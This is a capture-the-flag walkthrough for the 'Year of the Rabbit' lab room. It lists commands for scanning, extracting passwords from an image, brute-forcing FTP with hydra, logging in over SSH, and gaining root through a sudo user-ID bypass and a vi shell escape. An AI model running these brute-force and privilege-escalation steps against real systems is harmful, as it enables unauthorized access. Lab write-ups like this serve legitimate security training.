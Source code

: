 # Year of the Rabbit

- What is the user flag?

	- `scilla port -target <TARGET_IP>`
	- `21, 22, 80` open.
	- `scilla dir -target <TARGET_IP>`
	- Visit `/assets/`.
	- In `style.css`:
	~~~
    	Take a look at the page: /*****************.php
	~~~
	- Turn off your javascript.
	- Looking at the actual request we can find a hidden folder `W********-qU/`.
	- Visit that folder and download `Hot_Babe.png`.
	- `strings Hot_Babe.png`
	- Copy the passwords in a txt file.
	- `hydra -t 8 -l ****** -P Hot.txt -vV <TARGET_IP> ftp`
	- `***********`
	- `ftp <TARGET_IP>`, enter username and password.
	- `get "Eli's Creds.txt"`
	- [here](https://www.splitbrain.org/_static/ook/)
	~~~
	User: eli
	Password: *************
	~~~
	- `ssh eli@<TARGET_IP>`, `yes` and enter pwd. 
	- `find / -name s3cr3t`
	- `cd /***/*****/s3cr3t/`
	- `ls -lah`
	- `cat .t*`
	- `su - gwendoline` and enter pwd.
	- `pwd`
	- `ls -lah`
	- `cat user.txt`
	- `**************************************`

- What is the root flag?

	- `sudo -l`
	- `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`
	- `:!sh`
	- `whoami`
	- `pwd`
	- `cd /root/`
	- `ls -alh`
	- `cat root.txt`
	- `********************************************`


